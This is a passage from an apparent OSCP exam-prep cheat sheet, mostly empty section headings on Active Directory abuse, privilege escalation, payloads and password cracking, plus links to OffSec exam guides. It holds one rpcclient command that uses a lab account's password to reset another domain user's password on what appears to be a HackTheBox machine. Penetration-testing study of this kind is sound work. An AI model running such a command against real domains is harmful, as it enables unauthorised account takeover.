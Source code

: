 This can also be done in one line
```
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'
```


#### Abuse Authentication

#### BloodHound Analysis

#### Abuse Misconfigurations

#### Credential Dumping

#### Post Enumeration

#### Windows Privilege Escalation

# Linux

#### Post Enumeration

#### Linux Privilege Escalation

# BRUTE FORCE

# PAYLOADS



# TRANSFER PAYLOADS

# CRACK PASSWORDS

# Exam Specific

#### Local.txt / Proof.txt


#### More on OSCP
https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide-Newly-Updated


https://help.offsec.com/hc/en-us/articles/4412170923924-OSCP-Exam-FAQ-Newly-Updated#h_01FP8CCWDT0GX03RCE6RGYRZT4

https://help.offsec.com/hc/en-us/articles/29865898402836-OSCP-Exam-Changes